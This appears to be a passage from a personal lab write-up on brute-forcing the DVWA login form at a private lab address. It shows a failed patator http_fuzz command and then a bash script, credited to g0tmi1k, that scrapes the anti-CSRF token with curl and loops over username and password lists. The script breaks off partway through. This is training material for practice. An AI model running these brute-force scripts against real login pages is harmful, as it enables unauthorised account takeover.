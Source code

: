 ```

patator  http_fuzz  method=POST  follow=0  accept_cookie=0 --threads=64  timeout=10 \
  url="http://10.10.101.155/login.php" \
  0=passwords.txt \
  body="username=admin&password=FILE0&user_token=${CSRF}&Login=Login" \
  header="Cookie: security=impossible; PHPSESSID=${SESSIONID}" \
  -x ignore:fgrep='Location: login.php' \
  -x quit:fgrep='Location: login.php'


uhmm not work

let's use https://blog.g0tmi1k.com/dvwa/login/

┌──(kali㉿kali)-[~/Downloads]
└─$ nano patator.sh 

#!/bin/bash
# Quick PoC template for HTTP POST form brute force, with anti-CRSF token
# Target: DVWA v1.10
#   Date: 2015-10-19
# Author: g0tmi1k ~ https://blog.g0tmi1k.com/
# Source: https://blog.g0tmi1k.com/dvwa/login/

## Variables
URL="http://10.10.101.155"
USER_LIST="user_bruteforce.txt"
PASS_LIST="passwords.txt"

## Value to look for in response (Whitelisting)
SUCCESS="Location: index.php"

## Anti CSRF token
CSRF="$( curl -s -c /tmp/dvwa.cookie "${URL}/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2 )"
[[ "$?" -ne 0 ]] && echo -e '\n[!] Issue connecting! #1' && exit 1

## Counter
i=0

## Password loop
while read -r _PASS; do

  ## Username loop
  while read -r _USER; do

    ## Increase counter
    ((i=i+1))

    ## Feedback for user
    echo "[i] Try ${i}: ${_USER} // ${_PASS}"

    ## Connect to server
    #CSRF=$( curl -s -c /tmp/dvwa.cookie "${URL}/login.php" | awk -F 'value=' '/user_token/ {print $2}' | awk -F "'" '{print $2}' )
    REQUEST="$( curl -s -i -b /tmp/dvwa.cookie --data "username=${_USER}&password=${_PASS}&user_token=${CSRF}&Login=Login" "${URL}/login.php" )"
    [[ $? -ne 0 ]] && echo -e '\n[!] Issue connecting! #2'

    ## Check response
    echo "${REQUEST}" | grep -q "${SUCCESS}"
    if [[ "$?" -eq 0 ]]; then
      ## Success!
```